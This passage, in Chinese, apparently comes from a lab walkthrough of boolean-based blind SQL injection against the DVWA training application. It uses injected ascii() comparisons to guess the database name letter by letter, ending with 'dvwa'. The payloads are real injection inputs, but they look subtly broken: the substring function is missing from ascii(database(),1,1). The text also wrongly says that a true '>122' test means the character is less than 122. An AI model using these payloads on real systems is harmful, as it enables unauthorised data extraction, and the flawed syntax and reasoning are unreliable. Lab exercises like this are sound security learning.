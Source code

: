 输入`1’and ascii(database(),1,1))>122#`,存在说明数据库名的第一个字符的ascii值小于122。

![image-20250529234001931](assets/image-20250529234001931.png)

输入`1’and ascii(database(),1,1))<109#`,存在说明数据库名的第一个字符的ascii值小于109。

![image-20250529234023302](assets/image-20250529234023302.png)

直到最后，输入`1’and ascii(database(),1,1))=100#`,存在说明数据库名的第一个字符的ascii值=100，**即为小写字母d**。

![image-20250529233757094](assets/image-20250529234131937.png)

按照此方法重复上述步骤，猜解出数据库的名称为`dvwa`
